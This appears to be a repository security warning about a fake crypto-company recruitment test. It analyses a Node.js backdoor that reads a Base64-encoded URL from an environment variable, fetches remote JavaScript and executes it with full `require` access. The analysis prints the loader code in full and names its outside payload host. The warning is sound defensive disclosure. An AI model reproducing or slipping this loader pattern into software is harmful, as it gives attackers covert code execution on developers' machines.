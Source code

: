 # ⚠️ CRITICAL SECURITY WARNING - MALICIOUS CODE DETECTED ⚠️

## 🚨 DO NOT RUN THIS APPLICATION 🚨

This repository contains **ACTIVE MALWARE** and should **NOT** be executed under any circumstances.

---

## 📋 Executive Summary

This project was provided as a recruitment test by someone claiming to be a "CEO of a crypto company" on LinkedIn. **Security analysis has revealed that this is a malicious social engineering attack designed to compromise developer systems.**

**Threat Level:** 🔴 **CRITICAL** - Remote Code Execution (RCE) Backdoor

---

## 🔍 Technical Analysis

### The Backdoor Location

**File:** `backend/src/routes/governance.js`
**Lines:** 309-315

```javascript
//Get Cookie
exports.getCookie = asyncErrorHandler(async (req, res, next) => {
    const src = atob(process.env.DEV_API_KEY);
    const HttpOnly = (await axios.get(src)).data.cookie;
    const handler = new (Function.constructor)('require',HttpOnly);
    handler(require);
})();
```

### How the Attack Works

#### Stage 1: Obfuscated URL
- The backdoor reads `DEV_API_KEY` from environment variables
- This value is Base64-encoded to hide the malicious URL
- When decoded, it points to: `https://www.jsonkeeper.com/b/VBFK7`

#### Stage 2: Payload Retrieval
- The code makes an HTTP GET request to fetch malicious JavaScript
- The response contains heavily obfuscated code (57KB of malicious payload)
- See: `security-analysis/malicious-payload.json` for the full payload

#### Stage 3: Remote Code Execution
- Uses `Function.constructor` (equivalent to `eval()`) to execute the fetched code
- Passes Node.js's `require` function, giving **complete system access**
- This allows the attacker to:
  - Execute arbitrary system commands
  - Read/write/delete any files on your system
  - Steal sensitive data (SSH keys, credentials, tokens)
  - Install persistent backdoors
  - Use your machine for crypto mining or botnet attacks
  - Access browser cookies, passwords, cryptocurrency wallets
